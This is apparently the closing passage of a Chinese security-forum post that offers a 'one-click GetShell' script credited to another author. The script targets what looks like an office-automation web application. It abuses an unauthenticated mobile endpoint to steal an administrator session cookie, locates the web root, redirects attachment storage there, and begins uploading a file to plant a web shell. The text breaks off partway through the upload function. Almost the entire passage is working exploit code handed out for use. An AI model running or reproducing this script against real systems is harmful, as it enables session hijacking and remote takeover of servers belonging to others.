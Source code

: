 [![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-193babaa0d7b7599cbf372a8a4f0df05d31a26b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-193babaa0d7b7599cbf372a8a4f0df05d31a26b2.png)

结尾
--

再附上脚本,是一位大师傅写的。  
**一键GetShell脚本**  
**脚本代码:**

```php
#define payload = /mobile/auth_mobi.php?isAvatar=1&uid=1&P_VER=0
#define yinhao = "
#define Rootre = <td nowrap class="TableData">(.*?)</td>
#define contentidre = "TableLine1" index="(.*?)" >
#define attachmentidre = ATTACHMENT_ID_OLD" value="(.*?),"
#define shellpathre = alt="(.*?)" node-image-tips
function GetCookie(url){
    res = HttpGet(url.payload,"User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0");
    if(StrFindStr(res[1],"PHPSESSID",0) == "-1"){
        return "";
    }
    PHPSESSID = GettextMiddle(res[1],"PHPSESSID=",";");
    return PHPSESSID;
}
function JudgeOK(url,Cookie){
    res = HttpGet(url."/general/",Cookie);
    if(StrFindStr(res[0],"/static/js/ba/agent.js",0) == "-1"){
        return "0";
    }else{
        return "1";
    }

}
function GetRoot(content){
    list = StrRe(content,Rootre);
    num = GetArrayNum(list);
    num = num/2;
    i = 0;
    while(i<num){
        if(StrFindStr(list[ToInt(i*2+1)],":\",0) != "-1"){
            return list[ToInt(i*2+1)];
        }
        i = i+1;
    }
    return "";
}
function GetWebRoot(url,Cookie){
    res = HttpGet(url."/general/system/reg_view/",Cookie);
    return GetRoot(res[0]);
}
function AddPath(url,Root,Cookie){
    return HttpPost(url."/general/system/attachment/position/add.php","POS_ID=166&POS_NAME=166&POS_PATH=".URLEncode(Root."\WebRoot")."&IS_ACTIVE=on",Cookie);
}
function AddImgPath(url,Root,Cookie){
    return HttpPost(url."/general/system/picture/new/submit.php","TO_ID=&TO_NAME=&PRIV_ID=&PRIV_NAME=©_TO_ID=admin%2C©_TO_NAME=%CF%B5%CD%B3%B9%DC%C0%ED%D4%B1%2C&PIC_NAME=test&PIC_PATH=".URLEncode(Root."\webRoot")."&ROW_PIC=5&ROW_PIC_NUM=7",Cookie);
}
function PushImg(url,Content,Cookie){
    return HttpPost(url."/general/file_folder/new/submit.php",Content,Cookie.StrRN()."Content-Type: multipart/form-data; boundary=---------------------------33072116513621237124579432636");
```